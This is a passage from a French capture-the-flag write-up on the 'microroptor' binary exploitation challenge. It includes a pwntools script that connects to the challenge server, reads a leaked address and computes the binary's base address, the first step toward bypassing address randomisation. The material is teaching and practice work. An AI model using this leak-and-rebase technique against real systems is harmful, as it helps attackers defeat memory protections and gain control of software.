 Enfin on compare ce qui a été reçu sur l'entrée standard avec la chaîne `s2`.

On remarque que l'entrée n'est soumise à aucune condition particulière (présence
de null bytes, de retours à la ligne) puisque c'est la fonction `read` qui est
utilisée.

## Exploitation
### Leak de l'adresse du binaire

On peut tout d'abord récupérer le leak et calculer l'adresse de base du
binaire :
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./microroptor")
libc = ELF("/usr/lib/libc.so.6")

context.binary = exe.path
context.terminal = ["tmux", "new-window"]


def conn():
    if args.REMOTE:
        r = remote("challenges.france-cybersecurity-challenge.fr", 2052)
    else:
        r = process([exe.path])

    return r

def attach_gdb():
    if args.GDB:
        gdb.attach(r, gdbscript="""
source ~/.gdbinit-gef.py
b*main+0x75
        """)


def main():
    global r
    r = conn()
    attach_gdb()

    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    r.interactive()

if __name__ == "__main__":
    main()
```
